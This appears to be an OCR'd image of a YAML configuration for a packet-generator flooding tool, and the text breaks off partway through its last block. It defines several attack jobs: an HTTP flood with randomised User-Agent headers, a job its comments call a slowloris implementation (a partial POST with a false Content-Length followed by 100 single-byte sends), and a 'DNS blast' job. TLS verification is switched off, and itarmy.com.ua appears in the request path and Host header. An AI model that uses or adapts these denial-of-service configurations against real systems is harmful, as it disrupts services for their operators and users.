 ```yaml
      type: net # "net" used for L4+ connections (udp, tcp, tcp+tls), use "raw" example for ip connections
      args:
        protocol: "tcp" # tcp or udp
        address: "localhost:1234"
        tls_config: # optional, avoid this block for a raw tcp connection. not sure how it will behave in case of a udp connection
          insecure_skip_verify: true
    packet: # packets
      payload: # L5-L7 content for the packets being sent, for "net" connections it's the only part that is needed as everything else is generated by runtime
        type: http # example of http payload, 'data' contais same layout as 'request' in http job
        data:
          method: GET
          path: https://itarmy.com.ua/
          headers:
            User-Agent: "{{ random_user_agent }}" # this one will be evaluated either once or on every request based on 'dynamic' value

- type: packetgen
  args:
    dynamic: false # set to true to make it evaluate templates for each request
    interval: 1s # to send packets every second
    connection: # connection settings
      type: net # "net" used for L4+ connections (udp, tcp, tcp+tls), use "raw" example for ip connections
      args:
        protocol: "tcp" # tcp or udp
        address: "localhost:1234"
        tls_config: # optional, avoid this block for a raw tcp connection. not sure how it will behave in case of a udp connection
          insecure_skip_verify: true
    packets: # can be a sequence, this is an example of slowloris impl
      - packet:
          payload: # L5-L7 content for the packets being sent, for "net" connections it's the only part that is needed as everything else is generated by runtime
          type: raw # plain old string, can also be "http", "icmpv4", "dns"
          data:
            payload: "POST / HTTP/1.1\nHost: itarmy.com.ua\nContent-Type: application/x-www-form-urlencoded\nContent-Length: 100\n\n"
      - count: 100
        packet:
          payload: # L5-L7 content for the packets being sent, for "net" connections it's the only part that is needed as everything else is generated by runtime
          type: raw # plain old string, can also be "http", "icmpv4", "dns"
          data:
            payload: "a"

- type: packetgen # dns blast example
  args:
    connection:
      type: net
      args:
        protocol: "udp"
        address: "localhost:53"
    packet:
      payload:
        type: dns
        data:
          id: "{{ random_int_n 10000 }}"
          op_code: 0
          rd: true
          questions:
```
